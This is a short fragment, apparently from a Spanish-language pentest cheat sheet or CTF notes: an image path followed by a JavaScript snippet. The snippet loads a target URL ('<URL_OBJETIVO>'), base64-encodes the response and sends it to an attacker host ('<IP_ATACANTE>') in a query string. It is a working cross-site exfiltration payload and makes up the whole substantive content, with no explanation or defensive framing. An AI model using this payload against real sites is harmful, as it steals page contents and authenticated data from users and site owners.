 
---
var req = new XMLHttpRequest();
req.open('GET', '<URL_OBJETIVO>', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://<IP_ATACANTE>/?bs64=' + btoa(req.responseText), false);
exfil.send();